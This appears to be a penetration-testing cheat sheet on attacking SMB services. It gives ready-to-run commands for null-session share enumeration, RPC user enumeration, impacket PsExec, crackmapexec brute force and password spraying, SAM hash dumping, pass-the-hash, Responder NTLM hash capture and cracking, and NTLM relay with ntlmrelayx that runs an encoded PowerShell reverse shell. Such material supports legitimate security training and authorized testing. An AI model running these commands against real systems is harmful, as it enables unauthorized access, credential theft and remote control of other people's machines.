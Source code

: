 -----
# ENUMERATION
------
- nmap
```shell
sudo nmap $IP -sV -sC -p139,445
```

- enum4linux-ng.py
```
# Installation
git clone https://github.com/cddmp/enum4linux-ng.git
cd enum4linux-ng
pip3 install -r requirements.txt

# Enumeration
enum4linux-ng.py $IP -A

# Additional enumeration
enum4linux-ng.py $IP -A -C
```

-----
# MISCONFIGURATION
------
#### Anonymous Authentication
#### File Share
- smbclient
```bash
smbclient -N -L //$IP

-L: list of the server shares
-N: tell smbclient to use a null session
```

- smbmap
```bash
smbmap -H $IP

# use -r or -R to browse directories
smbmap -H $IP -r notes

# download a file
smbmap -H $IP --download $FILE

# upload a file
smbmap -H $IP --upload $FILE
```

#### Remote Procedure Call (RPC)
- Sometimes, nmap does not provide lots of information., use [RPC](https://www.geeksforgeeks.org/remote-procedure-call-rpc-in-operating-system/)
- Can be used with a null session to enumerate a workstation/Domain Controller
- Should be performed on top off nmap scan
```shell
rpcclient -U "%" $IP
rpcclient $> $OPTION

# options
	srvinfo: Serverinformation
	enumdomains: enumerate all domains that are deployed in the network
	querydominfo: provide domain, server, and user information of deployed domains
	netshareenumall: enumerates all available shares
	netsharegetinfo <sahre>: Provide information about a specific share
	enumdomusers: enumerates all domain users
	queryuser <RID>: Provides information about a specific user.
```

- RPCclient - Enumeration
```bash
# Find the server info
srvinfo
# Domains enumeration
enumdomains
querydominfo
netshareenumall
netsharegetinfo notes
# User enumeration
enumdomusers
queryuser $RID
```

-----
# EXPLOITATION
-----

#### Impacket samrdump.py
```
samrdump.py $IP
```

#### Impacket PsExec
```bash
impacket-psexec $USER:$PASSWORD@$IP
```
We can download PsExec from [Microsoft website](https://docs.microsoft.com/en-us/sysinternals/downloads/psexec), or we can use some Linux implementations:
- [Impacket PsExec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/psexec.py) - Python PsExec like functionality example using [RemComSvc](https://github.com/kavika13/RemCom).
- [Impacket SMBExec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbexec.py) - A similar approach to PsExec without using [RemComSvc](https://github.com/kavika13/RemCom). The technique is described here. This implementation goes one step further, instantiating a local SMB server to receive the output of the commands. This is useful when the target machine does NOT have a writeable share available.
- [Impacket atexec](https://github.com/SecureAuthCorp/impacket/blob/master/examples/atexec.py) - This example executes a command on the target machine through the Task Scheduler service and returns the output of the executed command.
- [CrackMapExec](https://github.com/byt3bl33d3r/CrackMapExec) - includes an implementation of `smbexec` and `atexec`.
- [Metasploit PsExec](https://github.com/rapid7/metasploit-framework/blob/master/documentation/modules/exploit/windows/smb/psexec.md) - Ruby PsExec implementation.

#### crackmapexec
- Enumeration
```bash
crackmapexec smb $Ip --shares -U '' -p ''
smbclient -U $USER \\\\$IP\\$share
```

- Brute Force & Password Spray
```bash
# Brute Forcing
crackmapexec smb $IP -U $USER_LIST -P PASS_LIST

# Passwords spraying
crackmapexec smb $IP -U $USER_LIST -p $PASS
```

- Execute a CMD or PowerShell command
```bash
# run a cmd or powershell command (-x for cmd & -X for powershell)
crackmapexec smb 10.10.110.17 -u Administrator -p 'Password123!' -x 'whoami' --exec-method smbexec
```

- Enumerate Logged-On Users
```bash
crackmapexec smb $CIDR -u $USER -p $PASSWORD --loggedon-users
```

- Extract hashes from SAM database
```bash
crackmapexec smb $IP -u $USER -p $PASSWORD --sam
```

- Pass-the-Hash
```bash
crackmapexec smb $IP -u $USER -H $HASH
```

### Forced Authentication Attacks
#### Responder
- Fake a SMB server to capture user's NTLM hashes
```bash
responder -I $INTERFACE_NAME
```
- When a user or a system tries to perform a Name Resolution (NR), a series of procedures are conducted by a machine to retrieve a host's IP address by its hostname. On Windows machines, the procedure will roughly be as follows:
	1. The hostname file share's IP address is required.
	2. The local host file (C:\\Windows\\System32\\Drivers\\etc\\hosts) will be checked for suitable records.
	3. If no records are found, the machine switches to the local DNS cache, which keeps track of recently resolved names.
	4. Is there no local DNS record? A query will be sent to the DNS server that has been configured.
	5. If all else fails, the machine will issue a multicast query, requesting the IP address of the file share from other machines on the network.

- This will listen to users' request and capture all the hashes, which are stored in ***/usr/share/responder/logs/***
- Use hashcat to crack password
```bash
hashcat -m 5600 $HASH_FILE $WORD_LIST
```

#### impacket-ntlmrelayx or Multirelay.py
- If the hashes can't be cracked, we can use these 2 tools to relay the captured hashes to other machines.
	1. Ste SMB to OFF in responder configuration file
	```bash
	cat /etc/responder/Responder.conf | grep 'SMB='
	```
	 2. Execute ***impacket-ntlmrelayx***
	```bash
	impacket-ntlmrelayx --no-http-server -smb2support -t $IP	
	```
	3. Create a reverse shell using https://www.revshells.com and convert it to Base64. 
	4. Execute the command with ***impacket-ntlmrelayx***
	```bash
		impacket-ntlmrelayx --no-http-server -smb2support -t $IP -c	'powershell -e $ENCODED_SHELL'
	```
	 